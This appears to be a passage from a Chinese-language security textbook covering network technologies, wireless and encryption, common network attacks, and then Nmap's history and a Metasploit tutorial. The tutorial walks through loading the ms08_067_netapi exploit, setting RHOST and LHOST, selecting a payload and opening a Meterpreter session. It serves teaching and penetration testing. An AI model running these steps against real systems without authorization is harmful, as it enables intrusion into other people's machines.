多协议标签交换（MPLS）避免了使用较长的网络地址，而是使用较短的路径标签来在网络上移动数据。与传统的 IP 路由过程相比，这可以节省更多时间。最好的一点是：MPLS 可用于管理那些不属于 TCP/IP 协议族甚至与该协议族不兼容的协议。

## VoIP

IP 语音（VoIP）被定义为一种隧道机制，可在 TCP/IP 网络上传输数据或语音。它不仅被视为计算机网络上公共交换电话网络（PSTN）的优秀替代品，还可在智能手机上使用。VoIP 支持视频会议和远程项目协作等重要功能。话虽如此，某些 VoIP 解决方案旨在替代电话听筒或作为软件使用。Skype 就是后者的一个例子。

## iSCSI

iSCSI 被视为 FCoE 的低成本替代品，它是一种基于 IP 的网络存储标准。你可以使用这种位置无关的技术在局域网（LAN）、广域网（WAN）及其他互联网连接上存储、检索和传输文件。

## 软件定义网络

软件定义网络（SDN）为网络操作、设计和维护提供了新的视角。组织在网络设计方面不得不面对某些局限性，这就是为什么他们别无选择只能坚持使用单一供应商的原因。然而，借助 SDN，控制层（数据传输管理的网络服务）与基础设施层（硬件及硬件配置）被分离开来。此外，由于 SDN 可以从中心位置进行编程，其优势包括基于开放标准、厂商中立以及灵活性。最重要的是，在这种网络中，组织可以根据诸如最高吞吐量评级或成本效益等效益，选择其偏好的硬件。

## 无线网络

尽管无线网络最初因其带来的安全威胁而显得棘手，但其普及率在用户中飙升。随着时间推移，随着安全技术的发展，这一问题变得不那么严重，安全专业人员也开始采用无线网络。因此，让我们来看看一些与无线网络相关的概念。

### WLAN 与蜂窝技术

虽然不同的电压代表有线网络中传输的数据的零和 one，但在无线网络中，这是通过无线电波来表示的。这被称为调制，以下是几种用于在 WLAN 和蜂窝网络上传输数据的技术。

## WLAN

在 WLAN 上使用的四种常见技术包括跳频扩频（Frequency Hopping Spread Spectrum）、直接序列扩频（Direct Sequence Spread Spectrum）、正交频分复用（Orthogonal Frequency Division Multiplexing）和矢量正交频分复用（Vectored Orthogonal Frequency Division Multiplexing）。前两者是原始 802.11 标准的一部分，而后两者则是更为先进的调制形式。最后一种是思科（Cisco）开发的。

## 蜂窝网络

蜂窝网络上用于调制的五种技术包括频分多址（FDMA）、时分多址（TDMA）、码分多址（CDMA）、正交频分多址（OFDMA）和全球移动通信系统（GSM）。虽然 TDMA 是对 FDMA 的改进，但 CDMA 通过在整个频谱上扩展数据，允许通话使用所有频率。OFDMA 改进了 FDMA，常用于 4G 蜂窝设备。最后，GSM 提供带有 SIM 卡的手机，SIM 卡必须留在手机上才能工作。使用秘密加密技术来防止手机克隆。

## 卫星

卫星不仅可以通过微波技术为用户提供电视节目服务，还可以提供互联网。虽然与其他类型相比可能较慢，但这种技术在无法实施其他解决方案的偏远地区非常有用。

### WLAN 结构

在查看 WLAN 标准之前，了解 WLAN 组件和整体结构是个好主意。

### 接入点

这种无线发射器和接收器与有线部分连接，是有线设备接入网络的验收点。路由器是常见的例子。如今，“瘦”接入点类似于天线，可以连接到称为控制器的中央系统。

### SSID

此名称或值用于区分一个 WLAN 与其他 WLAN。它可由接入点隐藏或广播。隐藏 SSID 并不是一种称职的安全策略，因为它仅仅移除了信标帧。由于其他帧的存在，无线网络存在的发现可以被“嗅探”。

### 基础设施模式与 Ad Hoc 模式

由于 WLAN 必须包含一个 AP（接入点），所有站点和设备之间的通信都必须通过 AP 路由，这被称为基础设施模式。Ad Hoc 模式是指站点和设备无需 AP 即可直接相互通信的模式。

## WLAN 标准

### 802.11 标准

802.11 标准已经存在了一段时间。对该标准进行了多项修订，但有时被视为独立的版本。这些包括 802.11a、802.11b、802.11c、802.11f、802.11g 和 802.11n。

## 蓝牙

这种无线技术可用于在设备和外围设备之间创建个人区域网络。蓝牙 3.0 和 4.0 可以以 24 Mbps 的速度运行。Bluejacking（蓝牙劫持）和 bluesnarfing（蓝牙窃取）是指未经授权的讯息和访问行为。

## 红外线

这种短距离无线技术使用光而不是无线电波，并且要求两个设备都具有红外端口。它可以在 5 米的范围内工作，速度最高可达 4 Mbps。IrTran-P 协议可能会引发安全问题，因为它会自动接受文件。

## 近场通信（NFC）

当两个通信设备彼此靠近至 2 英寸（约 5 厘米）以内时，可用于进行支付或读取电子标签。这两个设备中通常有一个是移动设备。

## WLAN 安全

为了安全地实施 802.11 技术，你必须了解随着时间发展并使用的那些安全措施。开放系统和共享密钥认证是过去使用的传统身份验证方法，而针对无线网络的三种安全措施包括 WEP、WPA 和 WPA2。与使用 TKIP 协议的 WPA 相比，WPA2 基于 CCMP 协议，因此被认为更加安全。

## MAC 过滤

这种安全措施包括添加允许访问 AP 的 MAC 地址列表。然而，MAC 地址可以被欺骗，这就是为什么它不是一个很好的安全措施。话虽如此，你可以将特定设备列入黑名单或拒绝其访问 AP。


## 用于维护通信安全的加密

根据您希望使用的通信级别，有两种类型的保护可供使用。首先，链路加密对作为数据传输的一部分发送的所有信息进行反复加密和解密，而端到端加密仅加密发送的内部信息，但不加密对于路由所需的包头信息。

### 链路加密

如前所述，在这种数据传输中，除数据链路控制信息外，所有数据都会经过加密。当数据沿着路由到达目标主机时，每个路由器在某个点会解密信息以获取其目标的报头信息，然后再次加密该信息。

作为通过互联网发送数据的人员，无论是通过电子邮件还是银行机构必须与客户通信的情况，都更倾向于使用链路加密。这是因为所有数据都经过加密，提供了隐私和安全。缺点是，数据经过的所有设备都必须接收密钥，必要时还需更改密钥。除此之外，在每个路由点还必须对数据包进行解密，以便其能够继续沿路由传输。

### 端到端加密

在这种类型的加密中，数据加密仅限于除数据包报头和地址以外的所有内容。这使得它更容易受到黑客的攻击，因为黑客可以通过嗅探或窃听获取更多关于数据包的信息。尽管如此，端到端加密允许用户控制哪些内容需要加密。此外，由于在每个路由点没有反复的解密或加密，路由设备的性能得到了极大提升。IPsec 就是端到端加密的一个例子。

## 主动安全网络组件

网络组件必须与保护传输中的数据一起得到保护，原因很重要。这是因为如果组件被攻破，网络中的信息可以被攻击者轻松访问。换句话说，这两者都至关重要。

### 硬件

那么，什么是网络组件？这可以分为五个部分：硬件、传输介质、网络接入控制设备，以及端点安全和内容分发网络（我们将在下面讨论）。

### 调制解调器

作为调制器/解调器（modulator/demodulator）的组合词，调制解调器通过模拟电话线为远程用户提供网络访问。当用户将模拟信号发送到调制解调器时，它会被转换为数字信号，通常发送到服务器。因此，当服务器响应该信号时，数字信号会被转换回模拟信号并发送回远程用户。

虽然这对那些出差办公的人来说可能很有用，但这种类型的访问可能会让攻击者在安全人员忙于保护互联网网关时找到入口。

虽然不允许调制解调器接入网络是防止威胁的常见方法，但电信防火墙也被使用，并且监控传入和传出的模拟电话呼叫。因此，可以使用特定号码向组织的电话交换机发起调制解调器呼叫。

话虽如此，前面提到的电信防火墙很像 IP 防火墙，它位于公共交换电话网（PSTN）和组织的电话网络之间。

### 网桥和交换机

局域网（LAN）的大小通常会被发现增大，这不仅降低了带宽，还达到了 LAN 无法再扩展的极限。

增加电缆长度和 LAN 的大小只会增加衰减。有没有一种方法可以在不重新配置两个网络的情况下连接两个 LAN？

常见的解决方案是一种被称为网桥的第二层设备，它通过 MAC 地址负责在网段之间过滤流量。此外，它们放大信号，同时减少通过网络各部分流动的无用流量。

不幸的是，尽管网桥效率很高，但它们并不能防止网络中任何网段的人截获流量。因此，必须以链路层加密甚至访问列表的形式认真采取安全措施。这对于无线网桥尤其如此。

至于交换机，它们提供与网桥相同的好处，但价格昂贵。简而言之，它们是局域网可以连接的多端口设备，还具有增加网络带宽的额外好处。话虽如此，网桥和交换机都可以将广播转发到网络中的所有网段。

### 路由器

路由器的主要功能是通过接收数据包中添加的 IP 地址，将数据包转发到另一个网络。由于路由器通过路由表维护其所在网络的某种视图，它们随后决定网络中的哪个设备接下来应该接收此数据包。这通常被称为下一跳（next hop）。当然，如果目标 IP 地址不在其网络内，它会将近端目标更近的路由器转发该数据包。使用路由器的一个优点是通过它可以将不同类型的网络连接起来，从而毫无问题地发送数据包。

### 无线接入点

按定义，无线接入点为无线设备提供网络访问。该区域划分为单元格，如果无线接入点强度没有适当调整，该区域可能会扩展到安全区域之外。此处使用的一些策略包括屏蔽、噪声传输以及放置接入点本身以防止攻击者访问网络。

### 传输介质

电缆在网络设计中的重要性怎么强调都不为过。为上述网络选择正确的电缆类型将决定网络是否能成功执行其功能。选择电缆时必须考虑的一些方面包括吞吐量、设备间的距离、数据敏感性和环境。

至于可供选择的电缆类型，它们包括屏蔽和非屏蔽双绞线、同轴电缆、配线架和三种类型的光纤电缆。

### 有线

如前所述，您可以选择的电缆涉及双绞线和同轴电缆，其中铜线被绞合在一起，以防止电磁干扰和串扰。由于这种类型是最廉价的，在安装过程中很容易被弯曲。因此，为了解决这个问题，通常使用屏蔽双绞线电缆，它在常规保护套之外增加了额外的屏蔽以保护信号。当然，由于其价格更贵，安装时更难以弯曲，这可能是不利的，除非屏蔽信号是最高优先级。

至于同轴电缆，它们保护一个大尺寸的导体，然后用接地的线网覆盖，并由不导电层隔开。此外，使用保护护套覆盖整个电缆。由于同轴电缆比双绞线电缆大，除了安装在更大的距离上外，它通常支持更大的带宽。入侵者无法监控信号，而干扰被优质的保护护套阻挡。尽管如此，鉴于其价格昂贵，它仅用于专业应用。

### 无线

有两种类型的无线传输：无线电波和微波。我们在前一章中研究过的一些用于无线传输的应用包括蓝牙、红外、Wi-Fi 和使用卫星的无线传输。

### 光纤

即使光纤电缆中继续使用电缆，光的使用也取代了使用铜线时的电压变化。使用 LED 或激光器来引导数据，它们开关闭合以发送零和一。电缆另一端的接收器然后解释这些比特并将其转换回原始信号。

现在，激光波动的速度越快，光信号分散的可能性就越大。为此，使用光放大器，就像使用中继器一样。使用三种类型的光纤电缆：即单模、多模和塑料光纤（POF）。

## 网络接入控制设备

按定义，网络接入控制设备通常检查希望访问组织网络的设备。无论它们是否已经带有恶意软件、是否缺少安全更新，或者存在大量其他问题，这都可能影响整个网络，必须实时处理。当然，授予设备访问网络的可接受安全标准必须基于组织的安全策略。网络接入控制设备（NAC）倾向于充当自动检测和响应系统，这些系统被部署以防止对网络造成严重损害或数据泄露。

## 防火墙

定义为控制流量并在互联网和私有网络之间充当屏障的网络设备，防火墙用于根据设定的规则过滤流量，从而区分组织认为是恶意的流量和授权的流量。


## 代理服务器（Proxies）

代理服务器不仅能够阻挡来自网络外部的非预期流量和连接请求，还能保护网络的结构和寻址方案免受外部威胁。

虽然这些防火墙无法阻止恶意代码，但大多数提供此类防护的公司除了提供详细的日志记录、监控和审计功能外，还提供入侵检测系统，例如防病毒扫描器。

话虽如此，安全专业人员使用的防火墙主要有三种类型——静态包过滤、电路级网关和应用级网关。静态包过滤仅检查数据包头部提供的信息，而应用级网关则查看更多详细信息，以便过滤掉未经授权的交通。电路级网关防火墙基于电路（而非这两个实体之间的流量内容）在两个受信任的合作伙伴之间建立连接。

第四种常见的防火墙类型包括应用级网关，通常被称为代理。即使它会影响性能，代理也会保护源和目的 IP 地址，从而隐藏私有网络的身份。这是通过将数据包从一个网络复制到另一个网络来实现的，每个数据包通过防火墙时都会被检查和处理。这些应用层防火墙之所以这样命名，是因为它们在 OSI 模型的应用层上运行。

### 端点安全

在过去，网络安全依赖于网络边界哨兵，如防火墙、代理、病毒扫描器，以及大量入侵检测系统（IDS）、入侵防御系统（IPS）和入侵检测与预防（IDP）解决方案。随着时间的推移，这种做法被弃用，因为威胁不仅来自外部，也来自网络内部。

正因如此，端点安全的实践被采用，其中每个设备都负责其本地安全。这是另一个非常有意义的原因，因为任何网络的安全性仅取决于其最薄弱的环节。换言之，无论威胁存在于边界、服务器还是客户端，都应被视为对整个网络的威胁。

## 内容分发网络

也称为内容交付网络（CDN），它是位于各个数据中心的服务器系统，旨在向用户提供内容，并满足高可用性和性能标准。今天互联网上可用的许多内容都是 CDN 的一部分。其中包括可下载对象、流媒体、Web 对象和应用。

在存在了近二十年的时间内，CDN 在促进垂直行业（如游戏、电子商务、媒体和娱乐、软件下载交付）方面被证明是成功的。亚马逊 CloudFront 和微软 Azure CDN 是 CDN 的优秀例子。当然，由于该内容在全球多个数据中心可用，用户可以轻松访问。

设计和建立安全的通信渠道。静态数据相对容易保护。当数据在传输过程中时，存在各种威胁和漏洞，可能影响其可用性、机密性和完整性。然而，由于通信安全的目的就是检测、缓解和纠正传输错误，因此所有这些安全问题都可以得到处理。

为了做到这一点，识别通信渠道的类型是第一步。由于语音、多媒体协作、远程访问、数据通信和虚拟化网络是组织中常用的渠道，我们将了解它们的工作原理，并查看针对这些渠道的每种反制措施。

## 网络和协议安全机制

既然我们谈论的是传输中的数据，TCP/IP 协议套件是在互联网上使用最多的。然而，公认的事实是它存在安全缺陷，这就是为什么开发了许多协议、机制和应用来持续保护传输的数据。

大致归类为安全通信和身份验证协议，我们将查看保护传输数据时最常用的协议。

### 安全通信协议

已经开发了一些协议，以便保护特定于应用程序的通信渠道。尽管有许多协议与 TCP/IP 协议套件配合使用，其中包括互联网协议简单密钥管理（SKIP）、软件 IP 加密（swIPe）、安全远程过程调用（S-RPC）、安全套接层（SSL）、传输层安全（TLS）和安全电子交易（SET）。

SKIP 和 swIPe 都是第 3 层协议，而 SSL 和 TLS 保护 Web 浏览器和服务器之间的通信。至于 S-RPC，它防止在远程系统上执行未经授权代码。最后，SET 的设计目的是确保互联网上的安全交易。

### 身份验证协议

通常，一旦服务器或网络与系统之间建立了连接，身份验证就是确定远程用户身份的下一步。这些登录凭证如何交换以及是否加密因协议而异。

有三种常用的协议，如质询握手身份验证协议（CHAP）、密码身份验证协议（PAP）和可扩展身份验证协议（EAP）。CHAP 对用户名和密码进行加密，而 PAP 则不会。另一方面，EAP 作为一个框架而非本身是身份验证协议，因为它提供定制的安全解决方案，如智能卡、令牌和生物特征识别。

从这三种协议中出现了新的安全协议，如受保护的可扩展身份验证协议（PEAP）和轻量级可扩展身份验证协议（LEAP）。在 EAP、PEAP 和 LEAP 之间，优先选择 PEAP。

### 语音

即使语音通信不直接属于 IT 安全范畴，像 VoIP 这种通过网络发送数据分组的技术容易受到拦截，因此有必要采取机制以确保最佳的安全性和完整性。

当然，PBX、PSTN 和 POTS 系统也易受窃听、拦截和监听，但这可以通过保护物理布线本身来解决。至于您组织网络外部的布线，租用线路的电话公司必须负责保护。

### VoIP

这项技术将音频转换为数据分组，并通过 TCP/IP 连接发送。由于作为电话解决方案成本较低，它变得很流行。尽管如此，VoIP 可以通过多种方式受到攻击。伪造来电者 ID、通过中间人攻击伪造呼叫管理器、操作系统或拒绝服务（DoS）攻击甚至 802.1X 身份验证伪造都是非常可能的。此外，如果分组未加密，人们就可以直接窃听。

### 多媒体协作

组织中使用的另一种常见通信渠道涉及多媒体协作，包括两种类型：远程会议和即时消息。

#### 远程会议

根据定义，这种类型的通信渠道允许人们通过互联网进行虚拟会议。在大多数情况下，主机计算机上安装了浏览器扩展，并允许桌面共享和远程控制。

使用此类软件时，身份验证和加密是必须的。安全专业人员对此进行深入调查至关重要，同时主持这些会议的人员应接受如何安全使用这些应用程序的培训。

#### 即时消息

毫无疑问，即时消息使沟通变得更加容易。尤其是实时沟通。然而，鉴于它们使用点对点、中介或面向服务器的系统，此类应用程序存在安全风险。换言之，根据使用的应用程序，必须允许某些协议。例如，互联网中继聊天（IRC）和可扩展消息与呈现协议（XMPP）。

至于威胁，不仅可以伪造用户身份，用户还可以执行恶意脚本，使系统不安全。此外，由于提供文件传输选项，系统感染的风险也很高。在某些情况下，用户可能成为数据包嗅探甚至社会工程攻击的受害者。通过即时消息发送垃圾邮件是另一种攻击方法，这也是为什么从组织角度来看它被认为是不安全的。

#### 远程访问

如果您听说过“远程办公”这个词，您就会知道如今的员工能够直接从家中舒适地访问组织资源，就好像他们坐在办公室一样。简而言之，授予某人远程访问权限将涉及远程客户端访问网络。

那么，远程办公人员如何连接到网络？鉴于存在多种远程连接技术，安全专业人员还必须牢记随之而来的安全问题


通过这类连接，其中拨号、ISDN、DSL、宽带电缆和 VPN 最为常见。

由于在此类环境中拦截和窃听非常普遍，因此通过加密建立安全的通信通道至关重要。除此之外，仅允许特定人员远程访问并严格执行身份验证也同样重要。此外，远程办公人员可能偶尔也需要帮助。因此，使用前面讨论过的身份验证和安全通信协议，甚至是集中的远程身份验证服务（如 RADIUS 和 TACACS+）在此处可能很有用。

话虽如此，对于拨号连接，PPP 是取代 SLIP 的最常用协议。

### 关于 VPN

虚拟专用网（VPN）是一种连接，它可能使用不可信的通信网络来传输数据，但受到强大的身份验证协议和加密机制的保护。换句话说，整个协议相互包裹，无论是局域网（LAN）、线路、加密还是身份验证协议。PPTP、L2TP 和 IPSec 是已知提供加密、身份验证或两者的协议。

### VPN 屏幕抓取

在授予远程访问权限时出现的一个安全风险涉及屏幕抓取。就定义而言，这是攻击者刮取屏幕并访问其中敏感信息的能力。为此，必须实施屏幕抓取加密解决方案。

### 虚拟应用/桌面

虚拟应用或桌面是另一种日益普及的通信通道，它使远程用户能够像坐在远程访问的终端前一样执行命令。由于安全在此也起着重要作用，安全专业人员必须在主机计算机和虚拟机上实施相同的安全措施。

### 虚拟化网络

虚拟化网络能够将硬件和软件网络资源结合为一个提供管理功能的单一软件实体，从而模拟传统网络。这些实施不仅缩短了恢复时间，还提高了安全性。虚拟 SAN、SDN、客户机操作系统和端口隔离是虚拟化网络类型的一些示例。

### 虚拟 SAN

虚拟存储区域网络（SAN）不仅允许存储池化，还提供包括自动即时分配虚拟机存储在内的功能。被视为软件定义存储的一种方法，这里数据的可用性由软件而非硬件决定。因此，可以制定策略让软件决定数据应放置的位置。这反过来又比仅硬件选项更好地支持数据可用性和保护。

### SDN

软件定义网络（SDN）是通过策略驱动的工作流自动化来降低 IT 成本的一种方法。它不仅将网络控制平面与转发平面分离，还将网络流量管理为三个组件：原始数据、数据传输和数据目的。SDN 由三个架构层组成，如基础设施层、控制层和应用层。由于这些层级的存在，硬件将不再需要直接引导流量。

### 客户机操作系统和端口隔离

如果组织决定实施虚拟化网络，可能需要访问客户机操作系统。在这种情况下，配置私有局域网（LAN）可能有帮助，其中创建的第一个是主 LAN。你还可以创建其他 LAN，它们将被称为次级 LAN。次级 LAN 可以配置为三种模式：混杂模式、社群模式或隔离模式。此 PVLAN 内的节点将根据其所在模式受到通信限制。话虽如此，使用 PVLAN 的活动称为端口隔离。

### 预防或缓解网络攻击

如果你希望应对网络攻击，第一步是理解通常发生的攻击类型以及如何应对它们。更好的情况是你一开始就能预防这些类型的攻击。话虽如此，虽然据说布线的安全性要高得多，但它仍然存在一系列问题，可能影响可用性。

### 布线

噪声、衰减和串扰是影响有线网络的常见问题。虽然屏蔽布线可以保护网络免受噪声影响，但无论涉及同轴电缆、双绞线还是光纤电缆，遵循衰减的长度建议同样有效。串扰是影响双绞线的问题，可以通过正确绞合电缆来解决。话虽如此，有线介质上可能发生窃听，但更容易解决。由于光纤使用光而不是电压作为信号，这可以显著增加窃听的难度。但真正能提高安全性的是确保这些电缆的物理安全。

### 网络组件攻击

攻击网络组件发生的原因是每个组件由多个组织共享。安全专业人员理解每种攻击至关重要。

一些最常见的攻击包括非盲伪装（Non-Blind Spoofing）、盲伪装（Blind Spoofing）、中间人攻击（Man-in-the-Middle Attacks）、MAC 泛洪攻击（MAC Flooding Attack）、802.1Q 和交换机间链路协议（ISL）标记攻击（Tagging Attack）、双重封装 802.1Q/嵌套 VLAN 攻击以及 ARP 攻击。

### ICMP 攻击

正如我们之前所学，ICMP 是 TCP/IP 套件中互联网层使用的协议。路由器和其他网络设备使用它来发送与服务、主机或路由器不可用相关的错误消息或操作信息。使用此协议的诊断工具（如 ping 和 traceroute）通常被攻击者使用。被归类为 ICMP 攻击的常见攻击包括死亡之 Ping（Ping of Death）、Smurf、Fraggle、ICMP 重定向（ICMP Redirect）、Ping 扫描（Ping Scanning）和 Traceroute 利用（Traceroute Exploitation）。

虽然其中一些攻击寻找与数据包和 IP 地址相关的信息，但其他攻击利用 ICMP 协议来压倒系统。在这些攻击中，DoS 和 DDoS 攻击因造成的破坏而登上了新闻头条。

应对此类攻击的一个明智措施是阻止 ICMP 的协议号 1。一些防火墙也允许你阻止特定类型的 ICMP 消息。

### DNS 攻击

DNS 在网络安全中扮演着重要角色，负责将 IP 地址解析为计算机和域名。如果 DNS 服务器通过 DoS 或 DDoS 攻击成为目标，可能会引起很大的混乱。在出现问题时，拥有多个 DNS 服务器可能会派上用场。一些常见的 DNS 攻击包括 DNS 缓存投毒（Cache Poisoning）、DoS、DDoS、URL 隐藏（URL Hiding）、域名抢注（Domain Grabbing）和域名抢注（Cybersquatting）。

无论是重定向网站流量以收集信息，甚至使网络停止运作，你的 DNS 服务器都是此类攻击的目标。对于域名抢注，真正需要管理层在其他人之前购买与名称相关的站点。

### 电子邮件攻击

由于电子邮件是我们每天使用的常见工具，它已成为攻击的首选来源。为了对抗这些攻击，这实际上源于用户部分糟糕的安全实践。一些常见的电子邮件攻击包括电子邮件伪装（Email Spoofing）、网络钓鱼（Phishing）、鱼叉式网络钓鱼（Spear Phishing）、鲸鱼式网络钓鱼（Whaling）和垃圾邮件（Spam）。

对于伪装和网络钓鱼，目标是获取用户名和密码。在鲸鱼式网络钓鱼的情况下，风险甚至更高，因为目标是重要人物。虽然垃圾邮件令人烦恼，但仍应加以防范，因为今天向人们发送此类电子邮件是非法的。

### 无线攻击

鉴于找出谁在捕获作为无线电波发出的数据包是非常困难的，防止无线攻击可能很难解决。有两种常见的无线攻击，即驾车侦察（wardriving）和徒步侦察（warchalking）。

这两者都涉及寻找无线网络中的漏洞，并且通常一个接一个发生。仅仅因为某人无法成为网络上的无线客户端，这并不会阻止他们寻找有价值的信息。

### 远程攻击

这种攻击专注于特定的远程系统，例如 VPN 服务器，或者像过去一样的拨号服务器，但由于安全实践的改进，后者已停止。后者的一个例子是战争拨号（war dialing），其中创建的软件会拨出一个大的号码列表，以查找与调制解调器相关的号码。如果是电话或传真号码，应答会被记录。然而，如果是调制解调器，将尝试建立连接，使网络对攻击者开放。

### 其他攻击

现在，还有一份不必然归入上述任何类别的最终攻击列表。这些攻击包括 SYN/ACK 攻击、会话劫持（session hijacking）、端口扫描（port scanning）、泪滴攻击（teardrop）和 IP 地址伪装。

虽然 SYN/ACK 攻击充当一种 DoS 攻击，但会话劫持攻击试图收集发送到特定系统的所有数据。端口扫描涉及寻找开放的端口和


然后可用于攻击。虽然 teardrop 是一种数据包碎片攻击，但 IP 地址欺骗涉及想要隐藏其踪迹甚至以另一台计算机身份执行操作的攻击者。

## 第 4 章 – Linux 工具

Nmap 最早于 1997 年 9 月在线杂志《Phrack Magazine》上发表，由 Gordon Lyon（化名 Fyodor Vaskovich）创建。

由于当时没有计划发布新版本，因此第一个版本未标注版本号。鉴于其普及度和高需求，新版本陆续发布（v1.25 仅在 4 天后推出），并在 1998 年 12 月发布了 2.00 版本。

2000 年 4 月，2.50 版本问世，其中包含 ACK 扫描。在 2000 年 12 月，首个 Windows 版本（Nmap v2.45Beta16）得益于 Ryan Perme 和 Andy Lutomirski 的工作得以发布。2002 年 8 月，程序代码被重写，从 C 语言转变为 C++ 语言，并增加了对 IPv6 的支持。2004 年 2 月，3.50 版本发布，其中包含数据包跟踪和 UDP ping。2005 年夏天，出现了 Zenmap、Ncat 和 NSE 等额外工具。同年 9 月的 3.90 版本包含了 ARP 扫描和 MAC 地址欺骗。2009 年 3 月 30 日，发布了一个特殊版本（4.85beta5），用于检测感染了数百万台计算机的 Conficker 蠕虫病毒。2011 年 1 月 28 日，5.50 版本发布，其中包含 nping 数据包的生成，以及大量的 NSE 脚本。2012 年 5 月，6.00 版本发布，全面支持 IPv6。

### 影响

Nmap 最初是作为基本网络扫描器开发的，但每个新版本都增加了更多功能，其社区也在日益壮大。

Nmap 被认为是系统管理员、安全审计员和黑客最重要（且必不可少）的工具之一。这是因为它能够以高效（且隐蔽）的方式从网络中获取大量信息。

## 趣闻

Nmap 曾在《大逃杀》、《13：鬼迷心窍》、《黑客帝国 II：重装上阵》、《水晶丛林 4》或《谍影重重 3：最后的特工》等电影中亮相。操作系统（以及任何其他软件）并不完美，事实上，有些操作系统携带着长期存在的错误和漏洞。这带来了大问题，因为攻击者能够定位这些故障并从中获利。

为了测试我们设备中的漏洞，我们将使用 Metasploit 程序对我们的系统进行 pentest（渗透测试）。

Metasploit 是一个框架，允许你开发、配置和针对目标系统执行漏洞利用程序 [^1]，以进行适当的渗透测试。

[^1]: 漏洞利用程序（Exploit）：试图利用系统中的漏洞以攻陷该系统的软件。

它包含 900 多种不同的漏洞利用程序，主要来自 Windows 操作系统，尽管也有适用于 MacOSX 和 Unix / Linux 的。

除了漏洞利用程序，它还包含 [^2] 有效载荷（payload）以利用它们、库以及我们在攻击中可以使用的各种接口。

[^2]: 有效载荷（Payload）：允许你利用被攻陷计算机的软件。

它是用 Ruby 编程语言编写的，并且是自由软件。你可以找到适用于 Linux 和 Windows 的版本。

## 使用 Metasploit 的操作

我们将使用 Msfconsole 环境，因为它是最完整且使用最广泛的。我们可以通过在控制台输入 help 命令来查看此选项。

如果我们使用 Metasploit 数据库，可以在菜单 Applications Kali Linux >> Applications >> System Services >> Community >> Metasploit Pro Start 中找到它。

起初，我们应该收集目标系统的信息，这个第一阶段通常被称为侦察阶段，通过它我们可以获得必要的数据，从而基于我们发现的情况做出适当的决策。

由于我们已经研究了更适合此目的的工具（nmap），我们将使用此程序来查找主机、其操作系统及其服务。我们可以直接从 Metasploit 使用 db_nmap 命令来完成，该命令的操作与 nmap 类似（使用相同的参数）。一旦获得 IP 地址、服务、端口等，我们可以决定想要攻击哪里。

如果我们想查看 Metasploit 中可用的漏洞利用程序，我们将输入选项 `show exploits`。这将显示我们可以使用的所有漏洞利用程序的列表，因此保持 Metasploit Framework 更新至关重要，因为每次更新通常会增加可用的漏洞利用程序数量。

它会显示漏洞利用程序的列表以及简要描述、排名和被攻击的操作系统。

```
msf> show exploits
Exploits
========
Name                 Disclosure Date   Rank        Description
```

也可以使用 `search` 命令搜索漏洞利用程序。此命令还用于查找其他资源。一旦我们选择了要使用的漏洞利用程序，我们将输入命令 – `use [exploit]` 以指示 Metasploit 激活该漏洞利用程序。

例如，我们将使用漏洞利用程序 `ms08_067_netapi`，因此我们通过漏洞利用程序列表（使用 search 命令）查找，发现其完整名称为 `windows/smb/ms08_067_netapi`。

因此，我们将输入以下命令：`use windows/smb/ms08_067_netapi`

如果一切顺利（我们正确输入了漏洞利用程序名称），metasploit 将在控制台上以红色显示你正在使用的漏洞利用程序，表明你已成功加载它。

完成此操作后，我们将开始使用有效载荷来利用漏洞。要查看与我们的漏洞利用程序兼容的有效载荷列表，我们将使用 `show payloads` 操作。

```
msf exploit(ms08_067_netapi)> show payloads
```

我们可以看到，metasploit 告诉我们你已准备好使用有效载荷。如果我们在下方输入 `show options`，将显示我们可以使用的选项：

```
msf exploit(ms08_067_netapi)> show options
```

### 自动目标定位

我们看到在这种情况下，所有选项都是必需的（所有都具有 `Required = yes` 字段），而且它们大多数已经有一个默认值，尽管我们可以使用命令 `set [option] [parameters]` 根据我们的需要进行调整，如下所述。

我们通过命令 `set RHOST [target ip]` 和 `set LHOST [our IP]` 指示目标机器的 IP 地址以及我们自己的 IP 地址，如上面的选项表所示。

在放入相应的 IP 地址后，我们将使用 meterpreter 来利用漏洞。一旦初始化 meterpreter，我们即可完全利用该漏洞。

### 它是如何工作的？

Metasploit Framework 具有模块化架构（我们可以在下面更详细地查看），这意味着每个漏洞利用程序都集成到框架中，使其可以通过加载和配置命令与其交互（因此也可以与其他模块，如有效载荷进行交互）。

## 选项

以下是 msfconsole 中可用的一些选项列表，我们可以使用 `-h` 参数查看每个选项的更具体信息。

- **Back**: 下载当前模块。正如我们在示例中看到的那样，系统对该特定漏洞利用程序不敏感；这是我们更新系统时要实现的主要目标，即使得系统拥有尽可能少的漏洞。
- **Connect**: 支持 SSL [^4]、文件发送、代理等的小型 netcat [^3]。
- **Edit**: 允许你编辑（默认使用 Vim [^5]）已加载的模块。
- **Help**: 显示命令（如我们在基本示例中看到的那样）。
- **Info**: 显示已加载模块的大量信息（选项、目标、作者、许可证、参考、限制等）
- **Irb**: 显示一个 Ruby 解释器，允许创建脚本。
- **Jobs**: 显示在后台运行的模块。
- **Load**: 加载一个插件。
- **Unload**: 移除该插件。

[^3]: Netcat：用于分析网络的工具，特别是针对 TCP / IP 协议，但你也可以将其用于 UDP。它包含许多功能，是网络管理员最珍视的诊断和安全工具之一。
[^4]: SSL (Secure Sockets Layer)：提供网络上安全通信的协议。
[^5]: Vim 或 Visual Improved 是存在于所有 Linux 系统中的文本编辑器。


# 路由
- **Route**：允许你创建套接字
- **Search**：搜索（如模块、描述、引用等）
- **Sessions**：允许你列出、交互和结束会话（包括 shell、Meterpreter、VNC 等）
- **Set**：设置选项（如前所述）
- **Setg**：配置模块中的常用选项（例如 LHOST 或 RHOST），如果你打算使用多个模块，这将节省时间。如果我们同时使用 save 选项，还可以将其保存以便其他会话使用
- **Show**：显示 metasploit 的模块/选项/等（如前所述）
- **Use**：加载模块（如前所述）

# Meterpreter

我们将尝试使用 Meterpreter 来利用该漏洞。一旦我们激活了漏洞利用程序和负载，提示符将从 msfconsole 的 `msf` 变为表示 Meterpreter 的提示符。我们将输入 `ps` 命令来查看目标机器上的活动进程 –

```
meterpreter> ps
```

这只是 Metasploit 强大功能的一个简单示例。然而，该框架非常广泛，具有许多功能，包括创建我们自己的漏洞利用程序和负载，在数据库中保存我们的攻击，隐藏或混淆漏洞利用程序...

# Meterpreter 选项

Meterpreter 选项列表

- **Help**：显示 Meterpreter 选项
- **Background**：将当前 Meterpreter 会话发送到后台（返回到 Metasploit 起始界面，带有 `msf>` 提示符）
- **Cat**：显示文件内容（类似于 Linux 的 cat）
- **Cd**：更改目录（类似于 MsDos 和 Linux 的 cd）
- **Pwd**：显示当前目录
